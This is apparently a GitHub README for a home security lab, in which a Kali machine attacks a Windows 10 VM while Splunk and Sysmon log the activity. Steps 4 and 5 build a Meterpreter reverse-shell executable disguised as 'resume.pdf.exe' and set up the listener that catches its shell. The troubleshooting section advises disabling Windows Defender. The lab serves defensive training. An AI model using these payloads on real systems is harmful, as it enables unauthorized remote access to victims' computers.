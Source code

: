 # SOC Home Lab: Attack & Defense Simulation

## Table of Contents
1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
5. [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6. [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7. [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8. [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9. [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [How to Contribute](#how-to-contribute)
13. [Conclusion](#conclusion)

---
## 📌Introduction
This project demonstrates the setup of a home lab environment for cybersecurity testing, including an attack machine (Kali Linux), a target machine (Windows 10 VM), and a logging system (Splunk) to monitor malicious activities. The project involves:
- Setting up virtual machines
- Installing and configuring Sysmon for log collection
- Deploying malware using `msfvenom`
- Monitoring attacks using Splunk

---
## 🔧Prerequisites
| Requirement                  | Description                                      |
|------------------------------|--------------------------------------------------|
| **RAM**                      | At least **16GB** (to run multiple VMs)         |
| **Virtualization Software**  | VMware Workstation or VirtualBox                |
| **Operating Systems**        | ISO files for Windows 10 and Kali Linux         |
| **Logging Tools**            | Splunk and Sysmon setup files                   |
| **Internet Connection**      | Required for downloading and configuring tools  |

---
## Network Topology
Below is a simple network topology illustrating the setup:
```
   [Kali Linux (Attacker)]  --->  [Windows 10 VM (Target)]  --->  [Splunk (Log Monitoring)]
```
*The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.*

---
## Step 1: Setting Up Virtual Machines
### 1.1 Install Kali Linux (Attacker Machine)
1. Download **Kali Linux ISO** from [Kali Official Website](https://www.kali.org/downloads/).
2. Create a new VM in VMware/VirtualBox and install Kali Linux.
3. Update and upgrade Kali:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 1.2 Install Windows 10 (Target Machine)
1. Download Windows 10 ISO from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO).
2. Create a new VM and install Windows 10.
3. Ensure **networking is enabled** for communication between VMs.

---
## Step 2: Installing Splunk for Log Monitoring
1. Download **Splunk Free** from [Splunk Website](https://www.splunk.com/).
2. Install Splunk on your Windows 10 VM.
3. Start Splunk and log in with admin credentials.
4. Enable **data collection** for monitoring logs.

---
## Step 3: Installing Sysmon on Windows 10
1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64
   ```

---
## Step 4: Generating Malware with msfvenom
On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
- This creates `resume.pdf.exe`, which acts as our payload.

---
## Step 5: Setting Up a Metasploit Listener
1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---
## Step 6: Monitoring Logs with Splunk
1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---
## 🔍Troubleshooting
### 1. Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### 2. Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---
## 🎯Next Steps & Future Improvements
- Integrate **ELK Stack** for enhanced log analysis.
- Automate attack execution using **Python scripts**.
- Implement **Wazuh SIEM** for better threat detection.

---
## How to Contribute
Interested in improving this project? Contributions are welcome!
1. Fork the repository.
2. Create a new branch with your improvements.
3. Submit a pull request for review.

---
## Conclusion
This project demonstrates how to:
- Set up a cybersecurity home lab
- Deploy and detect malware
- Use Splunk for threat monitoring

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
- [LinkedIn](https://www.linkedin.com/in/wasim-hassan-030b80349/)

## 🎬 Network Topology Animation  

Click below to view the **interactive network diagram**:  

➡️ [View Animation](network-diagram.html)  

  
